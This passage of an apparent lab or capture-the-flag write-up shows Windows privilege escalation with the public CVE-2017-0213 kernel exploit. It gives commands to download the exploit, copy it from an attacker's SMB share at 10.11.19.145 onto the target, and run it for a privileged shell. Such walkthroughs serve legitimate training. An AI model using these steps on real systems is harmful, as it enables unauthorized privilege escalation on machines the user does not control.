 ```bash
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```


## Privilege Escalation - Kernel Exploit (CVE-2017-0213)

> When it comes to old machines with kernel exploits, those CVEs are reliable
> > https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---kernel-exploitation
{: .prompt-tip }

> https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213

> This exploit requires rdp connection since it will open a new privileged windows
{: .prompt-warning }

Prepare exploit

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/CVE-2017-0213/CVE-2017-0213_x64.zip
unzip CVE-2017-0213_x64.zip
```

On target:

> It will fail if directly run from smb share
{: .prompt-warning }

```bash
copy \\10.11.19.145\s\CVE-2017-0213_x64.exe .
CVE-2017-0213_x64.exe
```

![](/assets/obsidian/2b86decd05f059665e437a2ac6e16fb3.png)
